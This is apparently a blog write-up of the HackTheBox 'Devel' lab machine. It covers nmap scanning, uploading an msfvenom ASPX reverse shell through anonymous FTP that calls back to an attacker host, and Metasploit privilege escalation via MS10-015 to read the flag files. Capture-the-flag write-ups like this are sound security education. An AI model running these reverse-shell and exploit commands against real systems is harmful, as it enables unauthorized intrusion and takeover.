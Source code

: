 ```yaml
---
title: Devel
published: true
layout: post
---
```


<br />

---------------
Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.  

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/Ie03IcEDoi0?si=PrRoQQaHvXo0S6ts" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.5 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.10.5 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```

![](/assets/Devel/1.png)

<br />
<br />
<br />

There are **2 open ports**:
+ **21/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.5 -p 21,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Devel/2.png)

<br />
<br />
<br />

We can see that the services correspond to:
+ **21/tcp Microsoft ftpd**
+ **80/tcp Microsoft IIS httpd 7.5**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.5 -p 21,80 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

This machine is quite easy, we only have to perform some good enumeration and think logically. **FTP will be our best friend** in this machine.

<br />

The first thing that we will notice when checking the performed enumeration is that **FTP allows anonymous login**. We can connect to it by running `ftp anonymous@10.10.10.5` and **providing no password** when asked to. There is no relevant information in these server, however, we can see some files related to IIS, which is found in the web server:

<br />

![](/assets/Devel/3.png)

<br />
<br />
<br />

With this information, we can assume that this directory contains the **files that the web server is representing**, so we can try uploading a test file to see if it works:

![](/assets/Devel/4.png)

<br />

![](/assets/Devel/5.png)

<br />
<br />
<br />

We can now try to see if this **file is accessible from the web server**:

```bash
curl http://10.10.10.5/test.aspx
```

![](/assets/Devel/6.png)

<br />
<br />
<br />

Great, it did work, now we only have to **upload a reverse shell** to gain access to this machine, let's create the **reverse shell**, we just have to **visit the site for the reverse shell to work**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=4444 --platform windows -f aspx -o revshell.aspx
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.16.9; set LPORT 4444; run"
curl http://10.10.10.5/revshell.aspx #In another tab
```

![](/assets/Devel/7.png)

<br />

![](/assets/Devel/8.png)

<br />
<br />
<br />

Great, we have obtained a reverse shell as a non-privileged user, however we **can not access the flags yet**.

<br />

---

<br />

### Privilege Escalation

From here, we can start enumerating the machine to see how we can escalate privileges.

<br />

We have some **sensitive privileges** (*SeImpersonatePrivilege* and *SeAssignPrimaryTokenPrivilege*), however I tried using some types of Potatoes but it didn't work.

![](/assets/Devel/9.png)

<br />
<br />
<br />

We can use the **exploit suggester** to see if there is any kernel exploit that we can leverage, so let's **background the Metasploit session** and run it, we will find :

```bash
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![](/assets/Devel/10.png)

<br />
<br />
<br />

We can start trying these exploits one by one, until we end up trying the **MS10-015**, which works:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set lhost tun0
run
```

![](/assets/Devel/11.png)

<br />
<br />
<br />

Great, we have **NT AUTHORITY\SYSTEM privileges**, let's print the flags to finish the machine:

```text
shell
type C:\Users\babis\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

![](/assets/Devel/12.png)

<br />
<br />
<br />
